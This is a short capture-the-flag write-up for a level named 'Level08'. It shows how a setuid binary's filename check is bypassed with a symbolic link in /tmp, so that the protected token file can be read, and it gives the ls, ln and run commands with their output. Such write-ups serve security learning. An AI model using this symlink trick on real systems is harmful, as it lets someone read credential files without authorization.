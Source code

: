 # Level08
## Step by step
### 1. Locate files in `level08` home directory
  ```bash
  > ls -la
  -rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
  -rw-------  1 flag08  flag08    26 Mar  5  2016 token
  ```
---

### 2. Analyze the `level08` binary
The `level08` binary takes a file path as an argument. If the file path is not `token`, it prints the content of the specified file to stdout.

However, we want to read the `token` file, which is restricted by the program's logic.

---

### 3. Create a symbolic link to bypass the restriction
We can create a symbolic link pointing to the `token` file, using a different name that is not restricted by the binary's logic.

  ```bash
  > ln -s $PWD/token /tmp/test
  > ls
  lrwxrwxrwx 1 level08 level08 24 Jan 19 17:19 /tmp/test -> /home/user/level08/token
  > ./level08 /tmp/test
  XXX
  ```
